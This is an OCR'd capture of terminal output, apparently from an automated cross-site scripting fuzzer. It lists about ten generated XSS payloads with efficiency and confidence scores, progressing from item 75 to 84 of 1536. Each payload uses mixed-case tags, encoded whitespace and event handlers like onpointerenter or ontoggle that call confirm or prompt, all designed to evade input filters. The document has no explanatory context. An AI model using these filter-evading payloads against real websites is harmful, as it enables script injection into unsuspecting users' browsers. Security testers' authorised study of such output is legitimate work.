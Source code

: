 ------------------------------------------------------------
 Payload: <HTML/+/OnPOINTERENtEr+=+[8].find(confirm)%0dx// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 75/1536
 
------------------------------------------------------------
 Payload: <a%0aonmOUseovEr%0d=%0dconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 76/1536
 
------------------------------------------------------------
 Payload: <detAIlS/+/OnPoInTERenTEr%0d=%0d(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 77/1536
 
 Progress: 78/1536
 
------------------------------------------------------------
 Payload: <dETaILS%0aONpOinterENTEr%09=%09confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 79/1536
 
------------------------------------------------------------
 Payload: <html%0donmoUSEoVEr+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 80/1536
 
------------------------------------------------------------
 Payload: <DEtAils/+/oNtoGGle%09=%09(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 81/1536
 
------------------------------------------------------------
 Payload: <DEtAiLS/+/oNPoIntEreNteR%0d=%0da=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 82/1536
 
------------------------------------------------------------
 Payload: <htMl%0donPointeREnTEr%09=%09confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 83/1536
 
------------------------------------------------------------
 Payload: <deTAiLs/+/oNToGgLe%0a=%0aconfirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 84/1536
 